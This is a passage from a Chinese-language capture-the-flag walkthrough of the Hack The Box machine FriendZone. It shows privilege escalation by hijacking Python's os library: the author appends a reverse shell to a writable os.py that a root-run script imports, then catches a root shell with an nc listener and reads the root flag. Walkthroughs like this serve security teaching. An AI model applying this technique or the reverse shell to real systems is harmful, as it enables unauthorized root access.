from_address = "[admin2@friendzone.com](mailto:admin2@friendzone.com)"print "[+] Trying to send email to %s"%to_address#command = ''' mailsend -to [admin2@friendzone.com](mailto:admin2@friendzone.com) -from [admin1@friendzone.com](mailto:admin1@friendzone.com) -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''#os.system(command)# I need to edit the script later
# Sam ~ python developer
```

所以 python 脚本还没有完成，但是它调用了 os 库，就像我们之前看到的那样，它以 root 身份运行。现在，我在网上查了一下我如何才能做到这一点，发现这些很有帮助:

## 来谈谈来自 SANS 的 Mark Baggett 的黑暗面(这家伙的 Python 太棒了)

[https://www . sans . org/cyber-security-summit/archives/file/summit-archive-1542133788 . pdf](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1542133788.pdf)

## 通过从光栅化劫持 Python 库来提升权限

[](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/) [## 通过 Python 库劫持| rastating.github.io 提升权限

### 今天在调试一个 Python 脚本时，我发现我无法执行它，堆栈跟踪指向…

rastating.github.io](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/) 

然后，我检查了查找库的搜索过程的“优先级”:

```
friend@FriendZone:/tmp$ python -c 'import sys; print "\n".join(sys.path)'/usr/lib/python2.7
/usr/lib/python2.7/plat-x86_64-linux-gnu
/usr/lib/python2.7/lib-tk
/usr/lib/python2.7/lib-old
/usr/lib/python2.7/lib-dynload
/usr/local/lib/python2.7/dist-packages
/usr/lib/python2.7/dist-packages
```

即使我们不能在脚本运行的当前目录上写入(这是优先级，并且那里没有 os.py)，我们也可以在/usr/lib/python2.7 上写入(第二个选项)，并且我们可以在 os.py 上进行更改，因为它将被运行的 reporter.py 调用。

我在 os.py 脚本的底部添加了一个反向 shell 脚本:



看到它从 pspy64 触发:



我得到我的壳作为根。

```
➜  writeup nc -nlvp 9003
listening on [any] 9003 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.123] 52620
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
**b0e6c60b82cf96e9855ac1656a9e90c7**
```

我找到了一些证书文件，但没有深入到我可以使用它们的地方。因为我不知道钥匙的密码。英雄联盟

这就是我如何破解 Friendzone 的。我希望你能从这次演练中学到一些东西。干杯！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)